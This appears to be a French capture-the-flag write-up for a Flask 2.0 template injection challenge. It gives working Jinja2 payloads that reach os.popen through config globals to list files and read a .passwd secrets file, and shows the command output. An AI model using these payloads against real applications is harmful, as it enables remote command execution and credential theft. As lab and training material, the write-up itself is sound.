 # Template injection

![img](./0.png)

## Challenge :

Tenter des trucs

## Stratégie :

On sait qu'on est en python avec Flask 2.0 donc on peut tenter ceci :

 - `1+1` => ``, dommage.
 - `{{ 1+1 }}` => `2`, Ahhh on peut exécuter du code.
 
Un bon liens [ici](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
On peut retrouver facilement des requêtes à tester sur Flask dont celle-ci :

 - `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}` => `Dockerfile TemplateInjection.rar __pycache__ app.py docker-compose.yml requirements.txt static`
 
On a pas de flag donc essayons plus large :

 - `{{config.__class__.__init__.__globals__['os'].popen('ls -al').read()}}` => `total 44 drwxr-xr-x 1 root root 4096 Oct 6 18:43 . drwxr-xr-x 1 root root 4096 Oct 6 18:43 .. -r--r----- 1 root root 88 Oct 6 16:06 .env -r--r----- 1 root root 16 Oct 5 22:31 .passwd -r--r----- 1 root root 261 Oct 6 16:08 Dockerfile -r--r----- 1 root root 1532 Oct 6 16:01 TemplateInjection.rar drwxr-xr-x 2 root root 4096 Oct 6 18:43 __pycache__ -r--r----- 1 root root 2735 Oct 5 22:30 app.py -r--r----- 1 root root 302 Oct 6 16:06 docker-compose.yml -r--r----- 1 root root 235 May 19 11:48 requirements.txt drwxr-xr-x 4 root root 4096 May 19 12:09 static`
 
Il nous suffit alors d'essayer :

 - `{{config.__class__.__init__.__globals__['os'].popen('cat .passwd').read()}}`
 
Et voilà !